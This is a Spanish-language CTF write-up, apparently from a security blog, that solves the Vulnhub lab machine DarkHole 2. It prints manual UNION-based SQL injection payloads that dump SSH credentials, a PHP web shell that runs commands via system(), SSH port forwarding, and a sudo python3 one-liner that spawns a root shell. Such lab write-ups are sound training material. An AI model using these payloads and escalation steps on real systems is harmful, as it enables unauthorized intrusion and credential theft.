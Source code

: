 ```yaml
---
title: "DarkHole 2 - Vulnhub"
layout: post
date: 2023-12-14 22:10
tags:
  - Vulnhub
  - DarkHole
  - RCE
  - BruteForce
  - php
  - Pivoting
  - Information Leakage
  - Github Enumeration
  - SQLI
  - Port Forwarding
  - Bash History
  - Abusing Sudoers
image: /assets/images/Darkhole2/Darkhole2.png
headerImage: true
projects: false
hidden: false
description: "DarkHole 2 - Vunlhub"
category: blog
author: CAHOn3R
externalLink: false
---
```

# Reconocimiento

Como de costumbre al tratarse de una maquina de *Vulnhub* y correrla en local empezaremos el reconocimiento escaneando nuestra propia red con **arp-scan** para encontrar la **IP** de la maquina victima.

```bash
❯ arp-scan -I eth0 --localnet --ignoredups
192.168.0.19	00:0c:29:b0:7d:26	VMware, Inc.

-I # para especificar la Interfaz que queremos escanear
--localnet # para decir que queremos que sea un escaneo local
--ignoredups # para que no reporte duplicados
```

La **IP** maquina victima es **192.168.0.19** así que procedemos a realizar el escaneo de puertos con **nmap**
```bash
❯ nmap -p- -sS --min-rate 5000 --open -vvv -n -Pn -oG allPorts 192.168.0.19

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 00:0C:29:B0:7D:26 (VMware)
```

Nos reporta 2 puertos abiertos, 22 **ssh** y 80 **http** ahora trataremos de ver lar versiones y servicios que corren en estos puertos.
```bash
❯ nmap -sCV -p 22,80 192.168.0.19 -oN targeted

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 57:b1:f5:64:28:98:91:51:6d:70:76:6e:a5:52:43:5d (RSA)
|   256 cc:64:fd:7c:d8:5e:48:8a:28:98:91:b9:e4:1e:6d:a8 (ECDSA)
|_  256 9e:77:08:a4:52:9f:33:8d:96:19:ba:75:71:27:bd:60 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: DarkHole V2
| http-git: 
|   192.168.0.19:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: i changed login.php file for more secure 
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
``` 
Como podemos ver en el puerto 80 esta corriendo un **Apache 2.4.41** y en el puerto 22 **OpenSSH 8.2p1** si la version fuese menor a la 7.7 podría ser vulnerable a **user enumeration**, pero com no es el caso de momento nos sirve de bien  poco.
Lo que mas me llama la atención es el directorio **.git**, al verlo me viene a la mente la herramienta [git-dumper.py](https://github.com/arthaud/git-dumper)
```bash
❯ git log --oneline
0f1d821 (HEAD -> master) i changed login.php file for more secure
a4d900a I added login.php file with default credentials
aa2a5f3 First Initialize
❯ git diff a4d900a
diff --git a/login.php b/login.php
index 8a0ff67..0904b19 100644
--- a/login.php
+++ b/login.php
@@ -2,7 +2,10 @@
 session_start();
 require 'config/config.php';
 if($_SERVER['REQUEST_METHOD'] == 'POST'){
-    if($_POST['email'] == "lush@admin.com" && $_POST['password'] == "321"){
+    $email = mysqli_real_escape_string($connect,htmlspecialchars($_POST['email']));
+    $pass = mysqli_real_escape_string($connect,htmlspecialchars($_POST['password']));
+    $check = $connect->query("select * from users where email='$email' and password='$pass' and id=1");
+    if($check->num_rows){
         $_SESSION['userid'] = 1;
         header("location:dashboard.php");
         die();
```
Con la herramienta me descargo el directorio **.git/** y con **git** hago un `git log` y voy enumerando los logs hasta dar con el que tenemos aquí arriba y ver que se quitaron estas lineas del archivo **login.php** que casualmente tiene credenciales **lush@admin.com:321**
Aun no hemos enumerado la web y ya tenemos credenciales, no hay que esforzarse mucho en esto, hay un login, tenemos creds, para dentro.
[<img src="/assets/images/Darkhole2/captura1.png">](/assets/images/Darkhole2/captura1.png)
# Explotación

Lo que vemos es esto, y en lo que me fijo es en la **url**, no se por que mi cerebro me llevaba a pensar en una vulnerabilidad **IDOR**, pero no es el caso... Lo siguiente que pruebo es lo típico, meterle una comilla a la **url** y...
[<img src="/assets/images/Darkhole2/captura2.png">](/assets/images/Darkhole2/captura2.png)
Capturo la petición con **burpSuite** para trabajar mas cómodo.

**Pruebas realizadas en burpSuite**
```burpSuite
GET /dashboard.php?id=1'--+- HTTP/1.1  200 OK
GET /dashboard.php?id=1'+or+sleep(5)--+- HTTP/1.1 # El servidor tarda 5 segundos en responder
```
_despues de esto ya sabemos que el servidor es vulnerable a SQLI_

Vamos a explotarlo de manera manual
```bash
# Primero tenemos que obtener el numero de columnas que hay en la base de datos que se está utilizando
GET /dashboard.php?id=1'+order+by+6--+- 200 OK'
# Vamos iterando el numero hasta llegar al correcto

GET /dashboard.php?id=1'+unilon+select+1,2,3,4,5,6--+- '
# aqui bucamos alguno de los numeros en la web, como no veo ninguno de los números cambio el ID a 2

GET /dashboard.php?id=2'+unilon+select+1,2,3,4,5,6--+- 200 OK'
# Aquí el servidor nos devuelve los numeros así que podemos injectar codigo sql para enumerar las bases de datos

GET /dashboard.php?id=2'+unilon+select+1,2,database(),4,5,6--+-
darkhole_2' # Listar database
GET /dashboard.php?id=2'+union+select+"test","test",group_concat(table_name),"test","test","test"+from+information_schema.tables+where+table_schema='darkhole_2'--+- 
ssh,users' # listar tablas

GET /dashboard.php?id=2'+union+select+"test","test",group_concat(column_name),"test","test","test"+from+information_schema.columns+where+table_schema="darkhole_2"+and+table_name="ssh"--+-
id,pass,user' # listar columnas

GET /dashboard.php?id=2'+union+select+"test","test",group_concat(user,0x3a,pass),"test","test","test"+from+ssh--+-
jehad:fool' # Credenciales SSH
```
En la ultima petición podemos poner directamente la tabla **SSH** por que estamos listando la base de datos que está en uso, si no fuese así había que especificar la base de datos junto a la tabla por ejemplo `darkhole_2.ssh`.

Podemos conectarnos por **SSH**, tras la enumeración típica manual encuentro una [tarea cron](https://ayuda.hostalia.com/hc/es/articles/360017724357--Qu%C3%A9-es-un-cron-o-tarea-programada-)
[<img src="/assets/images/Darkhole2/captura3.png">](/assets/images/Darkhole2/captura3.png)
# Pivoting

Esta tarea se ejecuta como el usuario **losy** cada minuto, lo que hace es cambiarse al directorio /opt/web y iniciar un servidor web con php en el localhost por el puerto 9999,
me desplazo al directorio
```bash
cd /op/web

ls
index.php

cat index.php
<?php
echo "Parameter GET['cmd']";
if(isset($_GET['cmd'])){
echo system($_GET['cmd']);
}
?>
```
Vemos una "web Shell" o "PHP shell" que se ejecuta como **losy**, dado que nos hemos conectado por **SSH** voy a ir a lo cómodo y me voy a traer el puerto 9999 a mi maquina
```bash
ssh jehad@192.168.0.19 -L 9999:127.0.0.1:9999
```

Ahora en nuestro navegador vamos a la 127.0.0.1:9999 y donde realmente estamos apuntando es al puerto 9999 de la maquina victima, ahí vemos las **web shell**, así que nos entablamos una **reverse shell** por el puerto **443**

[<img src="/assets/images/Darkhole2/captura4.png">](/assets/images/Darkhole2/captura4.png)
En verde tenemos la reverse shell con bash poniéndonos en escucha en **netcat** por el puerto 443 y en azul el tratamiento de la **tty**, faltaría exportar las variables de entorno.
```bash
losy@darkhole:/opt/web$ export TERM=xterm SHELL=bash
losy@darkhole:/opt/web$ stty rows x columns x # aqui tus valores
```

> Puedes hacer un stty -a para consultar tus valores en tu maquina atacante

Ya estamos como el usuario **losy**, ahora hay que escalar privilegios.
en el directorio personal de **losy** hago un `ls -la` es una buena costumbre, lo hago siempre.
```bash
jehad@darkhole:~$ ls -la
total 40
drwxr-xr-x 5 jehad jehad 4096 Dec 14 16:01 .
drwxr-xr-x 5 root  root  4096 Sep  2  2021 ..
-rw------- 1 jehad jehad 5677 Dec 15 10:16 .bash_history
-rw-r--r-- 1 jehad jehad  220 Sep  2  2021 .bash_logout
-rw-r--r-- 1 jehad jehad 3771 Sep  2  2021 .bashrc
drwx------ 2 jehad jehad 4096 Sep  2  2021 .cache
drwxrwxr-x 3 jehad jehad 4096 Sep  2  2021 .local
-rw-r--r-- 1 jehad jehad  807 Sep  2  2021 .profile
drwx------ 2 jehad jehad 4096 Sep  3  2021 .ssh
```

lo que mas me llama la atención de aquí es que el archivo **.bash_history** no tenga un link simbólico al **2>/dev/null** ya que en los **CTF** es lo mas común de ver, le hago un **cat** y veo la **pass** del usuario **losy**
```bash
cat .bash_history
P0assw0rd losy:gang
```

# Escalada de Privilegios

Pruebo  a hacer un **sudo -l**
```bash
losy@darkhole:~$ sudo -l
[sudo] password for losy: 
User losy may run the following commands on darkhole:
    (root) /usr/bin/python3
```
Podemos ejecutar **python3** como el usuario **root** de manera temporal... Vamos a [gtfobins](https://gtfobins.github.io/gtfobins/python/#sudo)aun que en este caso no era necesario.

```bash
losy@darkhole:~$ sudo /usr/bin/python3 -c 'import os; os.system("/bin/sh")'
# whoami
root
# cat /root/root.txt
DarkHole{'Legend'}
```

